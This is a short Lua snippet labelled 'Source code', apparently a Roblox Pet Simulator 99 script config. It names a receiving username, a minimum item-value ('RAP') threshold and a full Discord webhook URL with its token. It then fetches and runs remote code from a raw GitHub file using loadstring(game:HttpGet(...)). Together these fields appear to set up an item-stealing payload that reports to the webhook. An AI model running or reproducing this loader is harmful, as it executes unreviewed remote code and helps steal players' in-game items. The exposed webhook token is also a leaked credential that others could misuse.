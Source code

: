 Username = "BaconIsGoat60_1"
Username2 = "BaconIsGoat60_1"
MinimumRAP = 100000
Webhook = "https://discord.com/api/webhooks/1312690304746262548/qJ2ISmTecsqDLzHyL6OvXs1921sW9MvupTSEqkpy3BgeolsMzlnFcYVraAe5Wkv8q3gZ"

loadstring(game:HttpGet("https://raw.githubusercontent.com/xeps99s/ps99scrip/main/xe", true))()

